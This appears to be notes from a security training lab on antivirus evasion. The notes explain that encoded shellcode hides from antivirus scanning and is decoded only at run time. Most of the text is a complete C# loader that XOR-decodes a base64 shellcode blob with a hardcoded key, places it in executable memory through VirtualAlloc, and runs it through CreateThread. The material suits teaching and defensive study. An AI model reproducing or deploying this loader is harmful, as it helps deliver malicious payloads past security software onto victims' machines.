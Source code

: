 Add the decryption side part of the program. 
Utilizing the methods from the other program of encoding and encrypting the shellcode we can then create another program that unencodes the shellcode. 
We have the key and method to run the decryption before the shellcode executes. 
So upload the file, the AV runs to find find malicious code which it can't because it's encoded. The program runs decodes the shellcode, then executes it.
```csharp

using System;
using System.Net;
using System.Text;
using System.Runtime.InteropServices;

public class Program {
  [DllImport("kernel32")]
  private static extern UInt32 VirtualAlloc(UInt32 lpStartAddr, UInt32 size, UInt32 flAllocationType, UInt32 flProtect);

  [DllImport("kernel32")]
  private static extern IntPtr CreateThread(UInt32 lpThreadAttributes, UInt32 dwStackSize, UInt32 lpStartAddress, IntPtr param, UInt32 dwCreationFlags, ref UInt32 lpThreadId);

  [DllImport("kernel32")]
  private static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

  private static UInt32 MEM_COMMIT = 0x1000;
  private static UInt32 PAGE_EXECUTE_READWRITE = 0x40;
  
  private static byte[] xor(byte[] shell, byte[] KeyBytes)
        {
            for (int i = 0; i < shell.Length; i++)
            {
                shell[i] ^= KeyBytes[i % KeyBytes.Length];
            }
            return shell;
        }
  public static void Main()
  {

    string dataBS64 = "qKDPSzN5UbvWEJQsxhsD8mM+uHNAwz9jPM57FAL....pEvWzJg3oE=";
    byte[] data = Convert.FromBase64String(dataBS64);

    string key = "THMK3y123!";
    //Convert Key into bytes
    byte[] keyBytes = Encoding.ASCII.GetBytes(key);

    byte[] encoded = xor(data, keyBytes);

    UInt32 codeAddr = VirtualAlloc(0, (UInt32)encoded.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    Marshal.Copy(encoded, 0, (IntPtr)(codeAddr), encoded.Length);

    IntPtr threadHandle = IntPtr.Zero;
    UInt32 threadId = 0;
    IntPtr parameter = IntPtr.Zero;
    threadHandle = CreateThread(0, 0, codeAddr, parameter, 0, ref threadId);

    WaitForSingleObject(threadHandle, 0xFFFFFFFF);

  }
}
```
